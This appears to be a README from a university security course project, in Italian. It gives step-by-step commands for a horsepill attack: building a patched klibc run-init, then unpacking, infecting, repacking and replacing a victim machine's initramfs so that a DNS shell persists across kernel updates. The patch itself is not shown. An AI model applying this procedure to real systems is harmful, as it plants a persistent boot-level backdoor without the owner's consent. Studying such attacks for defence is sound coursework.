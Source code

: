 # Network and System Defence project
## Alessandro Chillotti (mat. 0299824)

## Traccia del progetto (traduzione)
È richiesto produrre un payload (utilizzando qualunque vettore) che è in grado di installare una DNS shell (e.g. guardare [qui](https://github.com/sensepost/DNS-Shell)) utilizzando un horsepill attack. Il payload deve essere in grado di sopravvivere agli update del kernel.

## Svolgimento del progetto
### Costruzione del run-init
Per costruire il binario `run-init` sono necessari i seguenti passaggi:

1. Eseguire il seguente comando per scaricare il sorgente della libreria klibc.
```
sudo apt-get build-dep klibc && apt-get source klibc
```
2. Eseguire il seguente comando per applicare la patch ai file sorgenti scaricati al passo precedente.
```
cd klibc-2.x.x && quilt import klibc-horsepill.patch -f && dpkg-buildpackage -j$(nproc) -us -uc
```
Completati questi due passaggi, sarà stato costruito il binario run-init.
### Costruzione del ramdisk infettato
All'interno della macchina vittima è necessario eseguire i seguenti comandi:

1. È necessario scompattare l'immagine all'interno della directory `boot` ed è stato utilizzato il comando:
```
unmkinitramfs /boot/initrd.img-5.13.0-39-generic dest-dir
```
2. Sostituire il run-init presente nei file che sono stati scompattati con quello creato nella sezione precedente.
3. Eseguire i seguenti comandi per ricompattare i file.
```
# Add the first microcode firmware

cd early
find . -print0 | cpio --null --create --format=newc > /path/to/infected_initrd

# Add the second microcode firmware

cd ../early2
find kernel -print0 | cpio --null --create --format=newc >> /path/to/infected_initrd

# Add the ram fs file system

cd ../main
find . | cpio --create --format=newc | xz --format=lzma >> /path/to/infected_initrd
```
4. Sostituire l'immagine presente all'interno di boot (`initrd.img-5.13.0-39-generic`) con quella appena creata (`infected_initrd`) mantenendo il nome `initrd.img-5.13.0-39-generic`.